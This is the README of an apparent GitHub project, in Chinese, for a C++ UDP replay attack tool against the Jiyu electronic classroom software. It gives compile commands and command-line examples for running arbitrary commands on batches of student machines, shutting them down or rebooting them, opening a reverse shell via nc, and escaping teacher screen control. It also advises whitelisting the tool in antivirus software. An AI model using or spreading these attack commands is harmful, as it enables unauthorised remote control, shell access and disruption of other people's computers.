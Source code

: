 # Jiyu-UDP-Attack-Cpp
使用 C++ 编写的 UDP 重放攻击脚本，用于极域电子教室。

English document: [README.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README.md)

## 注意
因为调用了某些系统防火墙服务，所以可能会被杀毒软件误报。忽略并添加信任即可。  
因为源代码采用 UTF-8 存储，而 Windows 默认中文编码为 GB2312，故直接编译会出现无法编译或编译后乱码的情况。请直接使用提供的编译命令或参考其中的解决方案。`main.cpp` 使用 GB2312 编码可以正常使用。

## 编译
要求的系统环境：Windows  
要求的最低 C++ 版本：C++11

注：所有头文件已经手动添加到 main.cpp 当中。所以你无需将头文件添加到编译环境中，而可以直接复制/下载 main.cpp 文件并直接编译。

编译命令：

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe /source-charset:utf-8 /execution-charset:gb2312
```

### MinGW
```bash
g++ main.cpp -o main.exe -lws2_32 -std=c++14 -fexec-charset=GB2312
```

当使用 MinGW 编译器时注意：  
确保在引用库的搜索目录中包含了 Windows 相关的程序库。  
不要忘记添加编译参数 `-lws2_32`。如果不使用命令行编译，请在 IDE 的编译选项中加入相应参数。

## 使用方法
通过运行程序或调用如下命令启用用户界面：
```bash
main
```

或者使用命令行调用：
```bash
main [-h(--help) |
  [-i(--i(--ip)) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-n(--ncport) <NC Port>]]
```

参数列表：
| 参数 | 描述 | 默认值 |
| -------- | ----------- | ------- |
| `-h(--help)` | 显示帮助文本。 | |
| `-i(--ip) <IP>` | 指定目标机的 IP。 | |
| `-p <Port>` | 指定监听的端口。 | 4705 |
| `-m(--msg) <Message>` | 指定要发送的信息。 | |
| `-c <Command>` | 在目标机上运行指定命令。 | |
| `-e <Extra Option>` | 加载额外选项。 | |
| `-l <Loop Count>` | 指定命令的循环次数。 | 1 |
| `-t <Loop Time Interval>` | 指定两次循环之间的时间间隔，单位为秒。 | 22 |
| `-n(--ncport) <NC Port>` | 指定 `nc` 命令的监听端口。 | 8888 |

在 `-e` 参数的 `<Extra Option>` 选项中，可用的选项有：
| 选项 | 描述 |
| ------ | ----------- |
| `r` | 重启目标机。 |
| `s` | 关闭目标机。 |
| `g` | 获取当前的 IP 地址和学生端监听的端口。 |
| `nc` | 反弹 Shell。目标机需要能访问互联网。在退出时可使用 `exit` 命令。 |
| `break` | 脱离屏幕控制。需要以管理员身份运行程序。 |
| `continue` | 恢复屏幕控制。 |

在 `-i(--ip)` 参数的 `<IP>` 中，可用的 IP 有：
- 一个独立的 IP。例子： `192.168.1.1`
- 一个 IP 段，以 `/24` 结尾。例子：`1892.168.1.1/24`
- 一个 IP 段，用 `-` 表示。例子： `192.168.1.2-10`  
注意：  
只有 IP 的最后一个数字可以成段。  
这是非法的： `192.168.1-80.1`

### 命令例子
1. 获取当前的 IP 地址和学生端监听的端口

```bash  
main -e g
```

2. 脱离屏幕控制

需要管理员权限，主要为了 MpsSvc。
```bash
main -e break
```

3. 恢复屏幕控制

```bash
main -e continue
```

4. 发送消息

给 IP 为 `192.168.1.1` 的目标机发送消息“Hello!”：
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

如果学生端监听的端口是 **4605**，使用参数 `-p <Port>` 来指定端口号。向 IP 为 `192.168.1.12` 的目标机发送消息“Hello!”：
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. 运行命令

在 IP 为 `192.168.1.12` 到 `192.168.1.137` 的目标机上弹出计算器：
```bash
main -i 192.168.1.12-137 -c calc.exe
```

如果要运行的命令中含有空格，使用引号包裹：
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. 反弹 Shell

目标机的 IP 应当为**某个IP**，不能批量反弹，且目标机需要能访问互联网。
```bash
main -i 192.168.1.1 -e nc
```

7. 关机重启

关机：
```bash
main 192.168.1.1 -e s
```

重启：
```bash
main 192.168.1.1 -e r
```

8. 循环执行

向 IP 为 `192.168.1.1` 到 `192.168.1.254` 的目标机发送消息“Hello!”，总共 3 次，每两次之间间隔 50 秒：
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## 头文件指南 & 贡献指南
如果你希望在自己的代码中调用本程序的相关接口，或者在源代码的基础上加以开发，可以参考 `header` 分支下的相关代码。其中所有不同模块的代码被分在不同的文件下，以头文件的形式互相引用。
头文件的文档可以参见：[Jiyu-UDP-Attack-Cpp 头文件文档](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/header/docs/zh.md)

如果希望对本代码提出贡献，可以提出 Issue / 在 `header` 分支下提出 PR~如果 PR 被合并，会即时对 `main.cpp` 进行更新的！

## 关于
受到了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack) 项目的启发，于是用 C++ 重写了一个。

## 许可证
[MIT 许可证](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
